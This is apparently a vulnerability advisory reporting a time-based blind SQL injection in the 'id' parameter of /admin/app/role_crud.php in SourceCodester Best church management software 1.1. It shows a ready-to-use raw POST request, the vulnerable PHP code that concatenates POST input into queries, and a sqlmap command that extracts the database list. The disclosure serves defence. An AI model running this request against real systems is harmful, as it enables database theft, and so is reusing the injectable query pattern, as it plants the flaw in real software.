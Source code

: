 A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/role_crud.php`. Affected is file `/admin/app/role_crud.php`,The manipulation of the argument id leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

Request：
```
POST /admin/app/role_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Cookie: session=.eJwlzjsOwjAMANC7eGaoXX-SXgbZcSxYWzoh7k4R65veG-61z-MB22s_5w3uz4QNnCO1q44wx0xZOD2LcXpN61O0MQ5Hb1Y_1chO3AaGrEzFShiaJWMxrtDuacO8N0LTIMXupEp9yMXkwmF8qbgu4utaU-CKnMfc_xuEzxcNCS9C.Z6cWpg.lZDsI5G8bS-uZLspkr5BH3C8pZs; PHPSESSID=b6743umu710ukcu0d3rns2pt2b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update=1&id=*
```

Affect code(`/admin/app/role_crud.php`):
```
......
if (isset($_POST['update'])) {
      
      
     extract($_POST);
     $stmt = $conn->prepare("delete  from permission_role where group_id='".$_POST['id']."'");
    $stmt->execute();

    $stmt = $conn->prepare("UPDATE groups set name='$name',description='$description' where id='".$_POST['id']."'");
    $stmt->execute();

    $checkItem = $_POST["checkItem"];
    //print_r($_POST);
    $a = count($checkItem);  
    for($i=0;$i<$a;$i++){
    $id = $_POST['id'];

        $sql="insert into permission_role(permission_id,group_id)values('$checkItem[$i]','$id')";
        $execute = $conn->query($sql);
        
    }
    
        $_SESSION['update'] = "update";
        header("location:../manage_role.php");
}
......
```

Exploit:
```
python D:\Tools\sqlmap\sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/21d238f1-5481-41da-8d33-b0b544ae5f22)

![图片](https://github.com/user-attachments/assets/a1bf1402-95fc-45b4-aa7c-f3c36d1d6ae2)


